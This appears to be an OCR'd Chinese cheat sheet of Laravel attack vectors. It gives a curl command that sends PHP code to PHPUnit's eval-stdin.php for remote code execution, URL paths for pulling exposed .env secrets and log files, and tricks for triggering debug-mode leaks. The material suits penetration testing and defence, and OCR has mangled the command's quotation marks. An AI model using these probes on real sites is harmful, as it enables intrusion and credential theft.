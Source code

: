＃laravel框架中的常见错误
1. Laravel PHPUnit远程代码执行
* 完整路径利用：http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
* 受影响的版本：4.8.28之前的版本和5.6.3之前的5.x

命令
```
curl -d“ <？php echo php_uname（）;？>” http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

2.暴露的环境变量 
* 完整路径利用：http://target.com/.env


3.公开的日志文件
* 完整路径利用：http://target.com/storage/logs/laravel.log

4.启用Laravel调试模式
* 在GET或POST方法中使用SQL注入查询
* 尝试路径/登出（例如：target.com/登出）
* 在参数中使用[]（例如：target.com/param [] = 0）


